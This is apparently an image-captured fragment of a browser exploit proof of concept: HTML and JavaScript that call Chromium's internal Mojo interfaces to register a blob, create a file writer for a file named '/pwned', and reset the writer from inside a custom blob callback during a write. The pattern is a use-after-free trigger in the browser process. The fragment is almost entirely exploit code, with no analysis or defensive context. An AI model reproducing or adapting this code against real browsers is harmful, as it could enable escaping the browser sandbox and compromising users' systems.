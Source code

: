 ```
  base_blob_element.bytes.data = base_bytes_ptr;

  let base_blob_ptr = new blink.mojom.BlobPtr();
  let base_blob_req = mojo.makeRequest(base_blob_ptr);
  blob_registry_ptr.register(base_blob_req, "blob_0", "text/html", "", [base_blob_element]);

  let file_system_manager_ptr = new blink.mojom.FileSystemManagerPtr();
  Mojo.bindInterface(blink.mojom.FileSystemManager.name,
                   mojo.makeRequest(file_system_manager_ptr).handle, "process");

  let host_url = new url.mojom.Url();
  host_url.url = 'http://localhost:7007';

  let open_result = await file_system_manager_ptr.open(host_url, 0);
  console.log(open_result);

  let file_url = new url.mojom.Url();
  file_url.url = open_result.rootUrl.url + '/pwned';

  let create_writer_result = await file_system_manager_ptr.createWriter(file_url);
  console.log(create_writer_result);

  function BlobImpl() {
    this.binding = new mojo.Binding(blink.mojom.Blob, this);
  }

  BlobImpl.prototype = {
    clone: async (arg0) => {
      console.log('clone');
    },
    asDataPipeGetter: async (arg0, arg1) => {
      console.log("asDataPipeGetter");
    },
    readAll: async (arg0, arg1) => {
      console.log("readAll");
    },
    readRange: async (arg0, arg1, arg2, arg3) => {
      console.log("readRange");
    },
    readSideData: async (arg0) => {
      console.log("readSideData");
    },
    getInternalUUID: async (arg0) => {
      console.log("getInternalUUID");
      create_writer_result.writer.ptr.reset();
      return {'uuid': 'blob_0'};
    }
  };

  let blob_impl = new BlobImpl();
  let blob_impl_ptr = new blink.mojom.BlobPtr();
  blob_impl.binding.bind(mojo.makeRequest(blob_impl_ptr));

  create_writer_result.writer.write(0, blob_impl_ptr);
})();
    </script>
  </body>
</html>
```

